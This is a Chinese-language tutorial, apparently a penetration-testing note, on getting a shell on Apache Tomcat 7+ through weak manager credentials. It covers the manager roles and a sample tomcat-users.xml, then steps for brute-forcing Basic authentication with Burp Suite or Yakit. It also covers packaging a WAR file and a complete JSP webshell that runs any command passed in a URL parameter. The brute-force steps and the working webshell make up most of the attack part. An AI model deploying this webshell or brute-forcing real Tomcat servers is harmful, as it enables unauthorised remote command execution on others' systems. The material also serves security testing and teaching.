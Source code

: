 Tomcat7+ 弱口令 && 后台getshell漏洞

Tomcat支持登录后台，在后台部署war文件(jsp压缩成zip再改后缀war)，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。
## **管理账户与管理权限**
Tomcat7+权限分为：
 - manager（后台管理）
   - manager-gui 拥有html页面权限
   - manager-status 拥有查看status的权限
   - manager-script 拥有text接口的权限，和status权限
   - manager-jmx 拥有jmx权限，和status权限
 - host-manager（虚拟主机管理）
   - admin-gui 拥有html页面权限
   - admin-script 拥有text接口权限
详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在Tomcat的conf/tomcat-users.xml文件中配置用户的权限：
```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
</tomcat-users>
```
这里创建了个用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## **漏洞测试**
1. 弱口令爆破账号。
在tomcat高版本中，错误密码多次，会锁账号，高版本不要爆破，手动试验弱口令。
```
1 使用yakit弱口令检测一键爆破
2 使用BP进行basic认证爆破
账号:密码 是一起base64加密放入请求头的Authoration参数。
 1. 选择变量$base64=$
 2. playload选择自定义迭代器
    第一个迭代器输入账号字典
    第二个迭代器输入密码字典
    分隔符填写 :
    playload处理，添加，选择Base64-encode
    取消勾选=自动进行url编码。
 3. 爆破响应码200
```
2. 登录后台，上传war包，war包名自动解压成网站目录。

打war包:
```
1. jsp压缩成zip，改后缀为war

或

2. java命令中：jar -cvf shell.war shell.jsp
```
shell.jsp:
```
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>

```
可以访问/shell/shell.jsp?pwd=x&i=ls /执行shell命令并回显。